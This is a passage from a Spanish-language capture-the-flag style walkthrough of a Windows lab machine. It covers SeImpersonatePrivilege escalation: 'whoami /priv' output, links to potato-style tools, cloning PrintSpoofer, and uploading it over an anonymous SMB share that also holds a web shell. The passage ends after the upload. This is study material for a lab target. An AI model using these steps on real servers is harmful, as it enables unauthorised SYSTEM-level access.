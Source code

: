 Con esta acción, hemos obtenido un shell con los privilegios del usuario `SYSTEM`, por lo que no es necesario realizar una escalada de privilegios a través de este método de explotación.

## Escalación de privilegios

---

### **Abuso de token SeImpersonatePrivilege**

Una vez que se ha obtenido una shell como el usuario `defaulttapppool` mediante el primer método, buscamos posibles vías de escalada de privilegios a usuario `SYSTEM`. Comenzamos listando los privilegios con los que cuenta el usuario actual.

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

El resultado indica que el token `SeImpersonatePrivilege` está activo. Según el artículo [Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) de **HackTricks**, existen diferentes formas de aprovecharlo utilizando herramientas como [juicy-potato](https://github.com/ohpe/juicy-potato)**,** [RogueWinRM](https://github.com/antonioCoco/RogueWinRM)**,** [SweetPotato](https://github.com/CCob/SweetPotato) **y** [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).

En este caso, utilizamos la herramienta [PrintSpoofer](https://github.com/dievus/printspoofer) ya compilada y empezaremos clonando el repositorio.

```bash
git clone https://github.com/dievus/printspoofer.git
```

Una vez ubicados en el directorio clonado, procedemos a conectarnos nuevamente al recurso compartido `nt4wrksv` para subir el ejecutable `PrintSpoofer.exe`.

```bash
❯ smbclient //10.10.95.131/nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe 
putting file PrintSpoofer.exe as \PrintSpoofer.exe (18,5 kb/s) (average 18,5 kb/s)
smb: \> ls
  .                                   D        0  Mon Apr  3 20:37:03 2023
  ..                                  D        0  Mon Apr  3 20:37:03 2023
  passwords.txt                       A       98  Sat Jul 25 10:15:33 2020
  PrintSpoofer.exe                    A    27136  Mon Apr  3 20:37:04 2023
  shell.aspx                          A     3419  Mon Apr  3 20:14:06 2023
  test.txt                            A        5  Mon Apr  3 20:01:57 2023

		7735807 blocks of size 4096. 4935427 blocks available
```
